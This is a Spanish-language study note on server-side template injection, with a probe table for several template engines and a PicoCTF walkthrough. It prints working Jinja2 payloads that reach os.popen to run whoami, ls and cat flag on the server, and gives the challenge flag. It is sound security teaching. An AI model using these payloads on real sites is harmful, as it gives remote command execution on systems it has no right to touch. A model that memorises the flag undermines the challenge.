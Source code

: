 ```yaml
---
{"dg-publish":true,"permalink":"/bug-bounty/template-injection/server-side-template-injection/","dgPassFrontmatter":true}
---
```


Server-Side Template Injection (SSTI) es una vulnerabilidad web que ocurre cuando una aplicacion del lado del servidor (server-side) evalua dinamicamente plantillas (templates) con entradas controladas por el usuario sin una validacion adecuada.

# Que es exactamente una plantilla (template)?

Una plantilla es como un molde con partes fijas (como HTML) y espacios para rellenar con datos que el servidor pone.
Por ejemplo imagina este HTML:

```
<h1>Hola {{ nombre }}</h1>
```
El **{{ nombre }}** es una expresion de plantilla, que se reemplaza automaticamente por un valor en el servidor, como:

```
<h1> Hola Cesar </h1>
```

# Como identificar un SSTI
1. Debemos encontrar un punto de inyeccion: un campo de entrada que luego se renderiza en una pagina (por ejemplo: name, message, comment).
2. Prueba con paylodas simples de cada motor de plantillas para ver si se evaluan.
	1. Si te sale el resultado calculado (por ejemplo 4), tienes SSTI.
Aqui tienes una tabla con pyloads de prueba de motores comunes:

| Motor            | Payload de prueba |
| ---------------- | ----------------- |
| Jinja2 (Python)  | {{7*7}}           |
| Twig (PHP)       | {{7*7}}           |
| Velocity (Java)  | #set($x=7*7) $x   |
| Freemaker (java) | ${7*7}            |
| Smarty (PHP)     | {$smarty.version} |

Si la salida es 49 estas ejecutando codigo dentro de la plantilla.

Procederemos a mostrar de que va la vulnerabilidad con un ejercicio de PicoCTF:

![Pasted image 20250716192706.png](/img/user/imgs/Pasted%20image%2020250716192706.png)

Accedemos al link y tenemos la siguiente pagina:

![Pasted image 20250716192734.png](/img/user/imgs/Pasted%20image%2020250716192734.png)

Observando mas de cerca tenemos lo siguiente:

![Pasted image 20250716192758.png](/img/user/imgs/Pasted%20image%2020250716192758.png)

Nos dice que el sitio nos permite anunciar cualquier cosa que queramos.

Probamos con payloads basicos como: **{{7x7}}***

Ahora vemos que nos devuelve el calculo:

![Pasted image 20250716192932.png](/img/user/imgs/Pasted%20image%2020250716192932.png)

Por lo tanto estamos tratando con Server Side Template Injection.

Procedemos a probar algunos paylods para saber mas informacion, debemos buscar variantes ya que puede que haya atributos bloqueados.


```
# Este payload te permite ejecutar un comando en el servidor:
{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}


# Otros equivalentes:
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag.txt').read() }}

{{''.__class__.__mro__[1].__subclasses__()[<index>].__init__.__globals__['os'].popen('cat flag.txt').read()}}

```

En este caso me funcion el segundo:

```
# Para saber que usuarios somos
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('whoami').read() }}

# Ver el contenido
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read() }}

# Mostrar la flag correspondiente al reto
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read() }}

```

![Pasted image 20250716193353.png](/img/user/imgs/Pasted%20image%2020250716193353.png)

![Pasted image 20250716193418.png](/img/user/imgs/Pasted%20image%2020250716193418.png)

![Pasted image 20250716193440.png](/img/user/imgs/Pasted%20image%2020250716193440.png)

Flag: picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_5c985a9a}

